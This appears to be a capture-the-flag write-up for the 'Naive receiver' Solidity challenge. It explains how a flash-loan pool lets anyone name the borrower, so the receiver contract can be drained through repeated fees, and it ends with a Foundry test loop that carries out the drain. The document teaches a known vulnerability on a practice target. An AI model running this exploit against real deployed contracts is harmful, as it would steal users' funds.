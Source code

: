 # 2. Naive receiver

#### **Objective**

There’s a pool with 1000 ETH in balance, offering flash loans. It has a fixed fee of 1 ETH.

A user has deployed a contract with 10 ETH in balance. It’s capable of interacting with the pool and receiving flash loans of ETH.

Take all ETH out of the user’s contract. If possible, in a single transaction.

#### **Approach**

* We want to drain `FlashLoanReceiver.sol` of its ETH.&#x20;
* It only has 2 functions, receiveEther() and receive()
* receiveEther() is called by flashLoan() function on `NaiveReceiverLenderPool`
  * checks that msg.sender is pool
* Notice that **anyone** can call flashLoan() function and **pass a borrower address of choice**
  * **receiveEther() does not check originator of transaction**
* This means we can repeatedly call flashLoan(), passing the `FlashLoanReceiver` address, draining the user's contract by repeatedly paying fees

#### Solution

The solution is to repeatedly call flashLoan() on naiveReceiverLenderPool, targetting flashLoanReceiver as the called of the flash loan.

We will achieve this with a `while` loop.

<figure><img src="../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* calculate the remaining balance on the target contract, less the flash loan fee
* take a flashout out with said balance
* the user's balances are drained paying fees
* while loop breaks when user's balance is 0.

```solidity
    function testExploit() public {
        /**
         * EXPLOIT START *
         */
        uint256 fee = naiveReceiverLenderPool.fixedFee();

        vm.startPrank(attacker);
        while (true) {
            uint256 loanAmount = address(flashLoanReceiver).balance - fee;
            naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), loanAmount);

            // if no more ETH, break out of while loop
            if (address(flashLoanReceiver).balance == 0) break;
        }

        /**
         * EXPLOIT END *
         */
        validation();
        console.log(unicode"\n🎉 Congratulations, you can go to the next level! 🎉");
    }

```
